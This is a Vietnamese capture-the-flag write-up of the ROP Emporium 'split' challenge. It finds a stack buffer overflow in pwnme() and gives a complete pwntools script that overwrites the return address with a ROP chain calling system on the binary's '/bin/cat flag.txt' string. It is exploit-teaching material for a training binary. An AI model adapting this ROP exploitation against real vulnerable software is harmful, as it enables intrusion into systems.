



# ROP_Emporium - split

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()



Còn có hàm usefulFunction()



Ở hàm pwnme() ta có thể thấy tại dòng thứ 8 cho phép ghi 0x60 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Có thể thấy ở bài này không có hàm win nên ta không thể sử dụng ret2win, thay vào đó là hàm **system** và có sẵn string "/bin/cat flag.txt"
--> ROP_gadget

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:


Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành ROP_chain khi đã có hàm system và chuỗi "/bin/cat flag.txt":


Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./split', checksec=False)

p = process("./split")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
system = elf.sym['system']
strings_cat_flag = elf.sym['usefulString']

payload = flat(
    cyclic(0x28),
    ret,
    pop_rdi_ret,
    strings_cat_flag,
    system
    )
p.sendlineafter(b">",payload)
p.interactive()
```
# Lưu ý:

Chúng ta cần thêm ret vào đầu ROP_chain vì:



# 4. Lấy flag


